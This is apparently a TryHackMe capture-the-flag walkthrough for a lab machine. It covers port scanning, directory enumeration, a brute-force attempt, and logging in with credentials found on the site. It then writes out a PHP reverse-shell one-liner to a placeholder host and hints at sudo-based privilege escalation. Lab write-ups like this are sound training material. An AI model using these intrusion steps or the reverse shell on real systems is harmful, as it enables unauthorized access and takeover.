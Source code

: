 # Tryhackme ctf challenge
my machine: 10.9.234.242
target ip: 10.10.40.177

#### procedure

1. Perform nmap scan `nmap -sC -sV 10.10.40.177`
    ![init nmap scan](./images/nmap_intial.png)
    - since we now port 80 is open we can explore the website. There will be a hint within the source code of the the home page. Let's remember the username `R1ckRul3s`

2. Perform gobuster scan to enumarate the website `gobuster dir -w <path to wordlist> -u http://10.10.40.177:80 -x php,txt,py,sh,cgi,bak,css,js`
    ![gobuster scan](./images/gobuster.png)
    - gobuster was able to identify the route /login.php. I captured one of the requests using burpsuite to get the parameters that are submitted during post login, to try and perform a bruteforce on the http post form using hydra. (No success)
    ```
    POST /login.php HTTP/1.1
    Host: 10.10.40.177
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31
    Origin: http://10.10.40.177
    Connection: close
    Referer: http://10.10.40.177/login.php
    Cookie: PHPSESSID=8hktk8c7ddson4fim2o6gefl74
    Upgrade-Insecure-Requests: 1

    username=a&password=a&sub=Login
    ```
    - eventually we eventually found the password from robots.txt `Wubbalubbadubdub`. Let's try to login using `R1ckRul3s`.

3. Once we logged in we have a command panel where we can run limited commands under the www-data user.

    - perform a reverse shell using this command `php -r '$sock=fsockopen("<your ip>",<your port>);exec("/bin/sh -i <&3 >&3 2>&3");'`
    - once we got the shell from our terminal we can see there's a file that we cannot directly open to get the 1st ingredient. (use grep to open)
    ![1st ingredient](./images/first_ingredient.png)
    - 2nd ingredient will be located somewhere around /home
    - last ingredient would most likely be in /root, but we don't have acces to it. try to run this command `sudo -l` and try to see if you can use grep to get the last ingredient.
